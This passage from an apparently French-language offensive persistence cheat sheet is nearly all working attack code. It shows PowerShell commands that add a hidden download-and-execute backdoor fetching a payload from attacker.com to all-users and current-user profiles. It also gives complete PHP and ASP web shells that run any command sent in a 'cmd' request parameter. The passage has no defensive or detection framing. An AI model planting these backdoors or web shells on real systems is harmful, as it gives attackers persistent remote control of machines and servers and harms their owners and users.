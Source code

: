### PowerShell Profiles
```powershell
# Backdoor dans profil PowerShell
$ProfilePath = $PROFILE.AllUsersAllHosts
"IEX (New-Object Net.WebClient).DownloadString('http://attacker.com/payload.ps1')" | Out-File -Append -FilePath $ProfilePath

# Ou profil utilisateur
"Start-Process -WindowStyle Hidden -FilePath powershell.exe -ArgumentList '-Command IEX (New-Object Net.WebClient).DownloadString(''http://attacker.com/payload.ps1'')'" | Out-File -Append -FilePath $PROFILE
```

## 🌐 Web Shells

### PHP Web Shell
```php
<?php
// Webshell PHP simple mais efficace
if(isset($_REQUEST['cmd'])) {
    echo "<pre>";
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
    echo "</pre>";
    die;
}
?>

<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
</body>
</html>
```

### ASP/ASPX Web Shell
```asp
<%
If Request.Form("cmd") <> "" Then
    Dim objShell, objCmdExec
    Set objShell = CreateObject("WScript.Shell")
    Set objCmdExec = objShell.Exec(Request.Form("cmd"))
    Response.Write("<pre>")
    Response.Write(objCmdExec.StdOut.ReadAll())
    Response.Write("</pre>")
End If
%>

<form method="post">
<input type="text" name="cmd" size="50">
<input type="submit" value="Execute">
</form>
```
